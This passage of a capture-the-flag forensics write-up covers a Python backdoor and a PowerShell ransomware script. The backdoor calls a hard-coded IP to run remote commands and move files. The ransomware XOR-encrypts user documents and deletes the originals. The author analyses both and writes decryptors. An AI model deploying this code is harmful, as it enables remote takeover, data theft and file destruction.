        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        v = cypher.decrypt(mes)
        return unpad(v, cypher_block)
    except:
        return 'echo Try it againg'


def receive_file():
    try:
        client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client2.connect(('13.61.7.218', 54163))
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
        client2.send(k.encode())
        enc_received = client2.recv(BUFFER_SIZE)
        received = dec_mes(enc_received, k).decode()
        filename, filesize = received.split(SEPARATOR)
        ok_enc = enc_mes('ok2', k)
        client2.send(ok_enc)
        total_bytes = 0
        msg = b''
        while total_bytes < int(filesize):
            bytes_read = client2.recv(BUFFER_SIZE)
            msg += bytes_read
            total_bytes += len(bytes_read)
        decr_file = dec_mes(msg, k)
        with open(filename, 'wb') as f:
            f.write(decr_file)
        client2.close()
    except:
        client2.send('Error transporting file'.encode())


def receive(client, k):
    while True:
        try:
            message = None
            msg = client.recv(1024)
            msg = dec_mes(msg, k)
            message = msg.decode()
            if msg == b'':
                time.sleep(10)
                s = 0
                while msg == b'':
                    s += 1
                    msg = client.recv(1024)
                    if s == 300:
                        raise Exception('Reconnect!')
            elif message == 'check':
                enc_answ = enc_mes('check-ok', k)
                client.send(enc_answ)
            elif message == 'send_file':
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()
            elif message == 'get_file':
                okenc = enc_mes('ok', k)
                client.send(okenc)
                try:
                    path_to_file = client.recv(1024)
                    path_to_file = dec_mes(path_to_file, k)
                    with open(path_to_file, 'rb') as f:
                        bytes_read = f.read()
                    bytes_enc = enc_mes(bytes_read, k)
                    filesize = len(bytes_enc)
                    filesize = enc_mes(f'{filesize}', k)
                    client.send(filesize)
                    vsb = client.recv(1024)
                    vsb = dec_mes(vsb, k)
                    client.sendall(bytes_enc)
                except:
                    try:
                        client.send('Error uploading file'.encode('utf-8'))
                    except:
                        pass
            elif message != None and message != '' and message != '\n':
                try:
                    answer = os.popen(message).read()
                    if answer.encode() == b'':
                        client.send('Bad command!'.encode('ascii'))
                    else:
                        enc_answer = enc_mes(answer, k)
                        size = str(len(enc_answer))
                        client.send(size.encode())
                        ch = client.recv(1024).decode()
                        if ch == 'ok':
                            client.sendall(enc_answer)
                except:
                    try:
                        client.send('Bad command!'.encode('ascii'))
                    except:
                        pass
        except:
            try:
                client.close()
                client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                client.connect(('13.61.7.218', 55155))
                k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
                client.send(f'{user}{SEPARATOR}{k}'.encode())
                client.settimeout(600)
                time.sleep(60)
            except:
                time.sleep(60)


if __name__ == '__main__':
    while True:
        try:
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f'{user}{SEPARATOR}{k}'.encode())
            client.settimeout(600)
            receive_thread = threading.Thread(target=receive, args=(client, k))
            receive_thread.start()
            break
        except:
            time.sleep(50)
```

In the `receive()` function, I noticed the key was sent right after the `{SEPARATOR}` part. So I went back to Wireshark to find the key.


The answer is `5UUfizsRsP7oOCAq`.

#### Sixth question

The attacker used AES CBC with the key above to encrypt the data. I extracted the data from Wireshark and used CyberChef to decrypt it, which revealed a PDF file.


I used the MD5 function to get the hash.


The answer is `8fde053c8e79cf7e03599d559f90b321`.

## Cave Expedition

### Description

Rumors of a black drake terrorizing the fields of Dunlorn have spread far and wide. The village has offered a hefty bounty for its defeat. Sir Alaric and Thorin answered the call also returning with treasures from its lair. Among the retrieved items they found a map. Unfortunately it cannot be used directly because a custom encryption algorithm was probably used. Luckily it was possible to retrieve the original code that managed the encryption process. Can you investigate about what happened and retrieve the map content?

### Thought process

I was given a `map.pdf.secured` file and a log folder.



Unzipping `Logs.zip` gave me a Logs folder. After inspecting it, only one of them seemed to have data.


Using `Event Viewer` is fine, but I wanted to check it in .csv format, so I used `EvtxECmd` to parse it for `Timeline Explorer`. 


I noticed this in the logs. A bunch of base64 encoded text was written in `avAFGrw41.bat`


Then it was executed after being converted to `.ps1` 


So a malicious script was executed after being decoded from base64. I then decoded the base64 blob to get the script

```powershell
# File extensions to target (*.txt *.doc *.docx *.pdf)
$fileExtensionsB64 = "Ki50eHQgKi5kb2MgKi5kb2N4ICoucGRm"

# Base64-encoded ransom message
$ransomMessageB64 = "LS0tLS0tLS...[rest of the message]..."

# Base64-encoded encryption key 1
$key1B64 = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="

# Base64-encoded encryption key 2 (nonsense string)
$key2B64 = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"

# Character mapping dictionaries
$forwardCharMap = @{}
$reverseCharMap = @{}

# Build forward character rotation map (A->B, B->C, ..., Z->A)
for ($i = 65; $i -le 90; $i++) {
    $forwardCharMap[([char]$i)] = if($i -eq 90) { [char]65 } else { [char]($i + 1) }
}

# Decode and return ransom message
function Get-RansomMessage {
    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($ransomMessageB64))
}

# Decode and split file extensions
function Get-TargetExtensions {
    return (Decode-Base64 $fileExtensionsB64).Split(" ")
}

# Add lowercase character mapping (a->b, b->c, ..., z->a)
for ($i = 97; $i -le 122; $i++) {
    $forwardCharMap[([char]$i)] = if($i -eq 122) { [char]97 } else { [char]($i + 1) }
}

# Base64 decode function
function Decode-Base64 {
    param([string]$encoded)
    return [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($encoded))
}

# Decode encryption keys
$key1 = Decode-Base64 $key1B64
$key2 = Decode-Base64 $key2B64

# Add number mapping (0->1, 1->2, ..., 9->0)
for ($i = 48; $i -le 57; $i++) {
    $forwardCharMap[([char]$i)] = if($i -eq 57) { [char]48 } else { [char]($i + 1) }
}

# Create reverse mapping
$forwardCharMap.GetEnumerator() | ForEach-Object {
    $reverseCharMap[$_.Value] = $_.Key
}

# XOR encryption function using two keys
function Encrypt-Bytes {
    param([byte[]]$data, [byte[]]$key1Bytes, [byte[]]$key2Bytes)
    $encrypted = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $k1 = $key1Bytes[$i % $key1Bytes.Length]
        $k2 = $key2Bytes[$i % $key2Bytes.Length]
        $encrypted[$i] = $data[$i] -bxor $k1 -bxor $k2
    }
    return $encrypted
}

# Encrypt data and convert to Base64
function Encrypt-ToBase64 {
    param([byte[]]$data, [string]$key1Str, [string]$key2Str)
    if ($data -eq $null -or $data.Length -eq 0) {
        return $null
    }
    $key1Bytes = [System.Text.Encoding]::UTF8.GetBytes($key1Str)
    $key2Bytes = [System.Text.Encoding]::UTF8.GetBytes($key2Str)
    $encryptedBytes = Encrypt-Bytes $data $key1Bytes $key2Bytes
    return [Convert]::ToBase64String($encryptedBytes)
}

# Main encryption function
function Start-Encryption {
    param([switch]$execute)
    try {
        if ($execute) {
            foreach ($ext in Get-TargetExtensions) {
                $targetPath = "dca01aq2/"
                if (Test-Path $targetPath) {
                    Get-ChildItem -Path $targetPath -Recurse -ErrorAction Stop |
                        Where-Object { $_.Extension -match "^\.$ext$" } |
                        ForEach-Object {
                            $filePath = $_.FullName
                            if (Test-Path $filePath) {
                                $fileBytes = [IO.File]::ReadAllBytes($filePath)
                                $encryptedData = Encrypt-ToBase64 $fileBytes $key1 $key2
                                [IO.File]::WriteAllText("$filePath.secured", $encryptedData)
                                Remove-Item $filePath -Force
                            }
                        }
                }
            }
        }
    }
    catch {}
}

# Execute if running on specific machine
if ($env:USERNAME -eq "developer56546756" -and $env:COMPUTERNAME -eq "Workstation5678") {
    Start-Encryption -execute
    Get-RansomMessage
}
```

The script will encode `(*.txt *.doc *.docx *.pdf)` files to `.secured` format, just like the `map.pdf.secured` file I received. The encryption used XOR with key1 and key2, and the character mapping was irrelevant in this scenario.

So I only needed to reverse the XOR encryption. Using this script, I recovered the original PDF:

```python 
import base64

key1 = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
key2 = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"

key1_bytes = base64.b64decode(key1)
key2_bytes = base64.b64decode(key2)

key1_str = key1_bytes.decode('utf-8', errors='replace')
key2_str = key2_bytes.decode('utf-8', errors='replace')

key1_bytes2 = key1_str.encode('utf-8')
key2_bytes2 = key2_str.encode('utf-8')

with open("map.pdf.secured", "r", encoding='utf-8') as f:
    base64_encrypted = f.read().strip() 

encrypted_bytes = base64.b64decode(base64_encrypted)

def xor_bytes(data, key1, key2):
    result = bytearray()
    for i, byte in enumerate(data):
        k1 = key1[i % len(key1)]
        k2 = key2[i % len(key2)]
        result.append(byte ^ k1 ^ k2)  
    return bytes(result)

decrypted_bytes = xor_bytes(encrypted_bytes, key1_bytes, key2_bytes)

with open("map.pdf", "wb") as f:
    f.write(decrypted_bytes)
```


Flag: `HTB{Dunl0rn_dRAk3_LA1r_15_n0W_5AF3}`

## Tales for the Brave

### Description


### Thought process